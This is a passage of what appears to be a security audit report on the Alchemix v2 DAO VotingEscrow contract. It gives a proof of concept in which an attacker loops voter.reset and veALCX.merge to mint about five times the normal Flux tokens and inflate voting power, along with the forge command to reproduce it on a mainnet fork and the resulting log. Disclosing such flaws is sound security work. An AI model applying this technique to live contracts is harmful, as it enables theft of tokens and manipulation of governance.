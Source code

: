 So the unclaimedFlux1 of the tokenID1 is 216214167934958887 

To compare, the attacker get 5 times bigger


```
1189177923641421562 /  216214167934958887 = 5 
```

So attacker can use the gained Flux token to boost the voting power. 
In this POC, I demonstrated that the attacker can mint Flux token. 

```
   Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 1189177923641421562

```

To run the test 
Copy the test code into the file: 

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/VotingEscrow.t.sol

and run the test command for the function in the alchemix-v2-dao folder:

```
FOUNDRY_PROFILE=default forge test --fork-url https://rpc.ankr.com/eth --match-path src/test/VotingEscrow.t.sol 
--match-test testFluxAccrualUnlimited  --fork-block-number 19822400 -vv > testFluxAccrualUnlimited_240508_0920.log

```

The full log: 
```
Ran 2 tests for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testFluxAccrualUnlimited_Hacked() (gas: 9917085)
Logs:
  Start to create 4 tokenIds by calling createLock with _maxLockEnabled is false and value is 1e18 BPT
  index: 0
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 21621416793325425
  Call  veALCX.merge() to merge tokenId
  index: 1
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 64864250380317202
  Call  veALCX.merge() to merge tokenId
  index: 2
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 129728500760634405
  Call  veALCX.merge() to merge tokenId
  index: 3
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 216214167934617960
  Call  veALCX.merge() to merge tokenId
  index: 4
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 324321251901926940
  Call  veALCX.merge() to merge tokenId
  index: 5
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 454049752662902272
  Call  veALCX.merge() to merge tokenId
  index: 6
  Call voter.reset(tokenId1)
  unclaimedFlux of tokenId1: 605399670217203030
  Call  veALCX.merge() to merge tokenId
```